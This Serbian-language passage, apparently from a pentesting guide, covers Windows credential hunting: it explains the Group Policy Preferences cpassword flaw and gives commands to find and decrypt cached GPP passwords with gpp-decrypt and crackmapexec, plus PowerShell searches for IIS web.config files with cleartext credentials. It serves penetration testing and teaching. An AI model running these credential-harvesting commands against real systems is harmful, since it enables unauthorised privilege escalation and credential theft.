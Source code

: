Ranije je postojala funkcija koja je omogućavala implementaciju prilagođenih lokalnih administratorskih naloga na grupi mašina putem grupne politike preferencija (GPP). Međutim, ovaj metod je imao značajne sigurnosne propuste. Prvo, objekti grupne politike (GPO), smešteni kao XML datoteke u SYSVOL-u, mogli su biti pristupljeni od strane bilo kog korisnika domena. Drugo, lozinke unutar ovih GPP-ova, enkriptovane sa AES256 korišćenjem javno dokumentovanog podrazumevanog ključa, mogle su biti dekriptovane od strane bilo kog autentifikovanog korisnika. Ovo je predstavljalo ozbiljan rizik, jer je moglo omogućiti korisnicima da steknu povišene privilegije.

Kako bi se umanjio ovaj rizik, razvijena je funkcija za skeniranje lokalno keširanih GPP datoteka koje sadrže polje "cpassword" koje nije prazno. Nakon pronalaska takve datoteke, funkcija dekriptuje lozinku i vraća prilagođeni PowerShell objekat. Ovaj objekat uključuje detalje o GPP-u i lokaciju datoteke, pomažući u identifikaciji i rešavanju ove sigurnosne ranjivosti.

Pretražite `C:\ProgramData\Microsoft\Group Policy\history` ili _**C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history** (pre Windows Viste)_ za ove datoteke:

* Groups.xml
* Services.xml
* Scheduledtasks.xml
* DataSources.xml
* Printers.xml
* Drives.xml

**Za dekripciju cPassword-a:**

```bash
#To decrypt these passwords you can decrypt it using
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```

Korišćenje crackmapexec-a za dobijanje lozinki:

```bash
crackmapexec smb 10.10.10.10 -u username -p pwd -M gpp_autologin
```

### IIS Web Konfiguracija

```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

Primer web.config sa kredencijalima:

```xml
<authentication mode="Forms">
<forms name="login" loginUrl="/admin">
<credentials passwordFormat = "Clear">
<user name="Administrator" password="SuperAdminPassword" />
</credentials>
</forms>
</authentication>
```

